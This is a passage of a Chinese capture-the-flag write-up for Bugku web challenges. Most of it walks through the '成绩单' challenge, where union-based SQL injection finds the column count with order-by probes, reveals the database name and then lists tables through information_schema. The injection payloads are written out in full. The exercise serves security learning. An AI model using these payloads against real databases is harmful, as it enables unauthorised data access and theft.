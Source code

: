 得到上面的代码后，构造相应的get请求，得到flag

![备份是个好习惯2](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/%E5%A4%87%E4%BB%BD%E6%98%AF%E4%B8%AA%E5%A5%BD%E4%B9%A0%E6%83%AF2.png)

# 成绩单

首先分别输入1,2,3，均有输出，输入1’，没有回应，因此可以判断存在sql注入

分别输入

```sql
1' order by 1#
1' order by 2#
1' order by 3#
1' order by 4#
```

均有回应，但是当我们使用 `1' order by 5#` 时，没有回应，可以根据此判断字段数为4。

然后联合查询，输入 `1' union select 1,2,3,4#`，没有显示有用的东西，因为 id=1 被覆盖，输入 

```sql
5' union select 1,2,3,database()#
```

即设置一个新的id，要select的值会显示在表上（覆盖）。

现在我们得到了一个数据库的名字 `skctf_flag`，之后就进行爆表

```sql
id=-1' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()# 
```

